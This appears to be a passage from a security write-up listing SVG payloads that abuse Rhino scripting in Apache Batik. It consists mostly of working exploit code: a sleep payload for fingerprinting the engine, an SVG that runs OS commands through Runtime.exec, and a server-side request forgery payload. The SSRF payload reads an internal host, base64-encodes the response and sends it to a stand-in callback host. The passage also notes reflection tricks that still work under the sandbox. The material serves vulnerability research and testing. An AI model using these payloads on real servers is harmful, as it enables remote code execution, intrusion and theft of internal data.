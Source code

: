 
1. Time-based Rhino fingerprinting:

```xml
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink">
    <script type="text/ecmascript">
        // Sleep for 30 seconds
        importPackage(Packages.java.lang);
        Thread.sleep(30000);
    </script>
</svg>
```

2. Rhino OS command execution:

> Java policy: ```permission java.io.FilePermission "<<ALL FILES>>", "read, execute";```

```xml
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink">
    <script type="text/ecmascript">
        importPackage(Packages.java.lang);
        Runtime.getRuntime().exec("open -a Calculator");
    </script>
</svg>
```

1. Server-Side Request Forgery:

> Java policy: ```permission java.net.SocketPermission "*", "listen, connect, resolve, accept";```

```xml
<svg xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink">
    <script type="text/ecmascript">
        importPackage(Packages.java.net);
        importPackage(Packages.java.util);
        importPackage(Packages.java.lang);
        importPackage(Packages.org.apache.commons.io);
        var targetC = new java.net.URL("http://target-internal-host").openConnection();
        var targetContent = IOUtils.toString(targetC.getContent());
        var encodedContent = Base64.getUrlEncoder().encodeToString(new java.lang.String(targetContent).getBytes());
        var callbackC = new java.net.URL("http://callback-host/callback?resp="+encodedContent).openConnection();
        callbackC.getContent();
    </script>
</svg>
```

It is still possible to get some impact from sandboxed script execution - you can get details about application internals (except classes from prohibited namespaces), such as class names, their methods and fields by using reflection mechanism. 

Prohibited classes:
* ```org.mozilla.javascript.*```
* ```org.apache.batik.script.*```
* ```org.apache.batik.apps.*```
* ```org.apache.batik.bridge.ScriptingEnvironment.*```
* ```org.apache.batik.bridge.BaseScriptingEnvironment.*```
